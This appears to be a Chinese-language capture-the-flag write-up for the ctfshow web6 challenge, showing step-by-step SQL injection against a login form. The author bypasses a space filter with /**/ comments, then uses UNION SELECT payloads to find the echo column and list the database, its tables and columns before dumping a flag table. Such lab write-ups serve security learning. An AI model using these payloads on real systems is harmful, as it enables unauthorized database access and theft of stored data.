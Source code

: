 `admin' or 1=1 union select 1,(select group_concat(flag) from flag),3;#--` 

![image-20240428194309229](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240428194309229.png)

## ctfshow web6

访问是登录框

万能账号不通过

![](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507225937274.png)

猜测过滤

发现过滤空格，使用 `/**/`代替

![](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507225908126.png)

登录成功

![image-20240507230139564](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507230139564.png)

查看回显点

`a'/**/union/**/select/**/1,2,3#`

![image-20240507230228021](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507230228021.png)

发现2为回显点，开始注入

`a'/**/union/**/select/**/1,database(),3#`

![image-20240507230353327](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507230353327.png)

库名为web2

`a'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='web2'),3#`

![image-20240507230748543](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507230748543.png)

有两个表flag,user

查看flag表

`a'/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='web2'/**/and/**/table_name='flag'),3#`

![image-20240507231019179](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507231019179.png)

发现flag字段

查看

`a'/**/union/**/select/**/1,(select/**/group_concat(flag)/**/from/**/flag),3#`

![image-20240507231120564](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507231120564.png)
